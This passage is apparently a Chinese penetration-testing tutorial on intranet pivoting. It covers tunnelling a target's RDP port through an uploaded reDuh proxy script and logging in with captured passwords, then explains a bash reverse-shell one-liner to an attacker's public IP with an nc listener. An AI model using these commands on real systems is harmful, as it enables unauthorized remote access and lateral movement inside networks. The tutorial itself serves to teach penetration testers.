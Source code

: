 ![img](https://image.3001.net/images/20190807/1565146921_5d4a3f2991817.png!small)

我们将代理脚本上传到目标服务器，在本地访问代理脚本

![img](https://image.3001.net/images/20190807/1565147942_5d4a4326e07e8.png!small)

这样我们执行一下三条命令就可以成功将目标主机的3389端口代理到本地的1234端口，本地连接1234端口就可以登陆内网服务器。

java -jar reDuhClient.jar<http://somesite.com/reDuh.php>

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2a4bb7.png!small)

本地连接1010端口

nc -vv localhost 1010

![img](https://image.3001.net/images/20190807/1565148315_5d4a449b1de95.png!small)

连接成功会有欢迎提示，之后输入命,在java命令窗口执行

[createTunnel]1234:127.0.0.1:3389

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2b57ca.png!small)

![img](https://image.3001.net/images/20190807/1565148338_5d4a44b2b9186.png!small)

使用mstsc登录127.0.0.1:1234，到了这一步就算成功了，我们可以根据前期抓取到的登陆密码进行登陆。

![img](https://image.3001.net/images/20190807/1565148397_5d4a44ed86d21.png!small)

![img](https://image.3001.net/images/20190807/1565148427_5d4a450b317f1.png!small)

由于小白能力有限，其它的sockes代理后续会以实验的形式 再呈现给大家。下面说一一下bash端口转发。

## 山转一角

### Linux一句话端口转发

我们在渗透测试中回经常遇见Linux主机环境，我们将获取到Linux主机的shell为内网渗透的工作之一，但有时候把并不是我们想象的那样简单，毕竟目标主机是处在内网环境中没有公网IP是无法与我们的公网IP进行通信的，中间隔了一道墙这怎么搞？

1、bash直接反弹端口：

bash一句话反弹shell,个人在实际渗透中用的也比较少，但是我看着别人都说还比较方便，那么下面就来看一下，这个bash怎么反弹端口的。

首先我们在我们先在目标主机上面执行命令:`bash -i >& >/dev/tcp/公网IP/端口 0>&1`;

我们先不看执行的效果如何，分析一下这个命令的含义:

`bash -i` //意思指的是产生一个bash的交互环境；

`\>/dev/tcp/公网IP/端口` //大佬们其实一看就明白，就是让内网主机与公网主机的某个端口进行连接；

`0>&1` //将标准输入域标准输出内容相结合，然后重定向给前面的标准输出内容；

然后在公网服务器上面执行监听命令，这样的话就能把内网的shell转发到公网服务器：`nc -lvvp 端口`
